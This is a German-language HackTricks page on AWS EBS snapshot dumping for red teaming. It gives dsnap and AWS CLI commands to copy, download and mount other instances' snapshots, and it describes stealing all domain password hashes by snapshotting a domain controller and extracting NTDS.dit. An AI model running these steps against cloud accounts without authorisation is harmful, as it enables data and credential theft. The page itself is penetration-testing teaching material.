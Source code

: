 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Überprüfung eines Snapshots lokal
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Hinweis**: `dsnap` erlaubt es nicht, öffentliche Snapshots herunterzuladen. Um dies zu umgehen, können Sie eine Kopie des Snapshots in Ihrem persönlichen Konto erstellen und diese herunterladen:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Weitere Informationen zu dieser Technik finden Sie in der Originalforschung unter [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Sie können dies mit Pacu unter Verwendung des Moduls [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) tun.

## Überprüfen eines Snapshots in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**In einer EC2-VM unter Ihrer Kontrolle einbinden** (sie muss sich in derselben Region wie die Kopie des Backups befinden):

Schritt 1: Ein neues Volume Ihrer bevorzugten Größe und Typs wird erstellt, indem Sie zu EC2 –> Volumes gehen.

Um diese Aktion auszuführen, folgen Sie diesen Befehlen:

* Erstellen Sie ein EBS-Volume, das an die EC2-Instanz angehängt wird.
* Stellen Sie sicher, dass sich das EBS-Volume und die Instanz in derselben Zone befinden.

Schritt 2: Wählen Sie die Option "Volume anhängen" durch Rechtsklick auf das erstellte Volume.

Schritt 3: Wählen Sie die Instanz aus dem Instanz-Textfeld aus.

Um diese Aktion auszuführen, verwenden Sie den folgenden Befehl:

* Hängen Sie das EBS-Volume an.

Schritt 4: Melden Sie sich bei der EC2-Instanz an und listen Sie die verfügbaren Festplatten mit dem Befehl `lsblk` auf.

Schritt 5: Überprüfen Sie, ob das Volume Daten enthält, indem Sie den Befehl `sudo file -s /dev/xvdf` verwenden.

Wenn die Ausgabe des obigen Befehls "/dev/xvdf: data" anzeigt, bedeutet dies, dass das Volume leer ist.

Schritt 6: Formatieren Sie das Volume mit dem ext4-Dateisystem, indem Sie den Befehl `sudo mkfs -t ext4 /dev/xvdf` verwenden. Alternativ können Sie auch das xfs-Format verwenden, indem Sie den Befehl `sudo mkfs -t xfs /dev/xvdf` verwenden. Bitte beachten Sie, dass Sie entweder ext4 oder xfs verwenden sollten.

Schritt 7: Erstellen Sie ein Verzeichnis Ihrer Wahl, um das neue ext4-Volume einzubinden. Zum Beispiel können Sie den Namen "newvolume" verwenden.

Um diese Aktion auszuführen, verwenden Sie den Befehl `sudo mkdir /newvolume`.

Schritt 8: Binden Sie das Volume in das Verzeichnis "newvolume" ein, indem Sie den Befehl `sudo mount /dev/xvdf /newvolume/` verwenden.

Schritt 9: Wechseln Sie in das Verzeichnis "newvolume" und überprüfen Sie den Speicherplatz, um die Volume-Einbindung zu validieren.

Um diese Aktion auszuführen, verwenden Sie die folgenden Befehle:

* Wechseln Sie in das Verzeichnis `/newvolume`.
* Überprüfen Sie den Speicherplatz mit dem Befehl `df -h .`. Die Ausgabe dieses Befehls sollte den freien Speicherplatz im Verzeichnis "newvolume" anzeigen.

Sie können dies mit Pacu unter Verwendung des Moduls `ebs__explore_snapshots` tun.

## Überprüfen eines Snapshots in AWS (mit cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Schattenkopie

Jeder AWS-Benutzer, der die Berechtigung **`EC2:CreateSnapshot`** besitzt, kann die Hashes aller Domänenbenutzer stehlen, indem er einen **Snapshot des Domänencontrollers** erstellt, ihn an eine von ihm kontrollierte Instanz anhängt und die **NTDS.dit und SYSTEM**-Registry-Hive-Datei exportiert, um sie mit Impacket's secretsdump-Projekt zu verwenden.

Du kannst dieses Tool verwenden, um den Angriff zu automatisieren: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oder du könntest eine der vorherigen Techniken nach dem Erstellen eines Snapshots verwenden.

## Referenzen

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
